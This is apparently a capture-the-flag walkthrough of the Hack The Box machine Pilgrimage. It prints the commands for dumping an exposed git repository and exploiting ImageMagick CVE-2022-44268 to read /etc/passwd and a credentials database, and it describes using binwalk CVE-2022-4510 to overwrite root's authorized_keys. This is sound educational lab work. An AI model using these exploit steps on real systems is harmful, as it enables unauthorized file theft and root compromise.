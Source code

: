 IP=`10.10.11.219`

## Enumeration
**nmap**
```bash
export IP=10.10.11.219
nmap -p- --min-rate 10000 -Pn $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---
sudo nmap -p22,80 -sCVT -A -Pn $IP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.93 seconds
```

Domain: `pilgrimage.htb`
Nginx version: `1.18.0`
git found: `10.10.11.219:80/.git` - We can use the tool `git-dumper` that can be installed using `pipx install git-dumper` to extract the content's of the git repo present on the machine. 

The tools: [Git-Money](https://github.com/dnoiz1/git-money), [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) and [GitTools](https://github.com/internetwache/GitTools) can be used to retrieve the content of a git directory. [hacktrickz - git](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git)
The tool [https://github.com/cve-search/git-vuln-finder](https://github.com/cve-search/git-vuln-finder) can be used to search for CVEs and security vulnerability messages inside commits messages.

The tool [https://github.com/michenriksen/gitrob](https://github.com/michenriksen/gitrob) search for sensitive data in the repositories of an organisations and its employees.

After downloading the repo, there is a lot to go through; including the source code. Also within the repository is a copy of `magick` (ImageMagick).

At this point, I decided to go and check the functionality of the site first, to which I found a file upload on `index.php`. This can be confirmed in the source code. There is also a login/register functionality. After testing the upload function and viewing the source code, upon image upload; the image was being shrinked into a smalled image, and the original one deleted/replaced with the new image. With  the copy of `magick` in the git repo, i went ahead and checked the version number so I could look for any known exploits. Version `7.1.0-49`.

Lookup term `ImageMagick 7.1.0-49 exploit`. From my research I found:
- [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) - Information disclosure vulnerability through arbitrary file read. When it parses a PNG image for resizing, the resulting image could have embedded the content of an arbitrary file.
- [PoC](https://github.com/entr0pie/CVE-2022-44268)
To exploit Imagemagick, generate a malicious png:

```shell
python3 CVE-2022-44268.py /etc/passwd  # Create output.png
```

Then, run a resize operation with convert:

```shell
convert output.png -resize 50% leak.png
```

Finally, inspect the leak image and convert the `Raw profile` to hex:

```shell
identify -verbose leak.png
# ...
Raw profile type:

    2367
726f6f743a783a303a303a726f6f743a2f726f6f743a2f6269 [...]
```

```bash
python -c "print(bytes.fromhex('726f6f743a783a303a303a726f6f743a2f726f6f743a2f6269 [...]'))"
```
- https://github.com/voidz0r/CVE-2022-44268
- [Exploit-db - CVE-44268](https://www.exploit-db.com/exploits/51261)
- Clone the project
`git clone https://github.com/voidz0r/CVE-2022-44268`
- Run the project
`cargo run "/etc/passwd"`
- Use the file with ImageMagick
`convert image.png -resize 50% output.png`
- Analyze the resized image
`identify -verbose output.png`
- Convert hex to str
`python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a"))`

After running `cargo run /etc/passwrd` and uploading the photo, then downloading the resized image and running `identify -verbose <img>`. It will output a large string of hex. After using python to convert this hex string to bytes, we can see that it is a success:
```bash
python3 u.py                    
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

Users: `laurel`

From the source code, in `login.php` there is a function that connect's to an sqlite database. Let's try to grab this file and inspect the database.
```php
[SNIP]
$db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

  if($stmt->fetchAll()) {
    $_SESSION['user'] = $username;
    header("Location: /dashboard.php");
  }
  else {
    header("Location: /login.php?message=Login failed&status=fail");
  }
  [SNIP]
```

After downloading the image and extracting the data using `identify -verbose <img>`. I used python to write the binary data to a file using `open("output.db", "wb").write(bytes.fromhex(<hex_str>))` then using `sqlite` to inspect the db....

```bash
sqlite3 pilgrimage.db            
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> SHOW DATABASES;
Parse error: near "SHOW": syntax error
  SHOW DATABASES;
  ^--- error here
sqlite> .tables
images  users 
sqlite> SELECT * FROM users;
emily|abigchonkyboi123
user|user
sqlite> SELECT * FROM images;
http://pilgrimage.htb/shrunk/662c0c41a8661.png|image.png|user
```
Creds Found: `emily|abigchonkyboi123`

## Privilege escalation
After a bit of enumeration, after running `ps aux | grep root` to check for any processes running under the `root` user I was able to find the script `/usr/sbin/malwarescan.sh`
```bash
!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

I initially though I code get code execution by manipulating the file names with `$()` and \`\` However no luck...

I then decided to check the version's of the tools being used.

Running `binwalk -h` will output the `binwalk` version. 

```
binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

after giving this a quick google:
`Binwalk v2.3.2 exploit` I found the following:
[CVE-2022-4510](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)
[exploit-db PoC](https://www.exploit-db.com/exploits/51249)
[Binwalk RCE - Packetstirnsecurity](https://packetstormsecurity.com/files/171724/Binwalk-2.3.2-Remote-Command-Execution.html)
A path traversal vulnerability was identified in ReFirm Labs binwalk from version 2.1.2b through 2.3.3 included. By crafting a malicious PFS filesystem file, an attacker can get binwalk's PFS extractor to extract files at arbitrary locations when binwalk is run in extraction mode (-e option). Remote code execution can be achieved by building a PFS filesystem that, upon extraction, would extract a malicious binwalk module into the folder .config/binwalk/plugins. This vulnerability is associated with program files src/binwalk/plugins/unpfs.py. This issue affects binwalk from 2.1.2b through 2.3.3 included.
- [CVE Explaination](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/)

After downloading the PoC from github, I then generated a `ed25519` SSH key pair using the command:
`ssh-keygen -t ed25519 -N "" -f ed25519_pilgrimmage`

Then, using this key + the exploit; I was able to gain code execution and overwrite the `authorized_keys` file using the PoC. From here, i was able to easily SSH into the machine as the `root` user. 


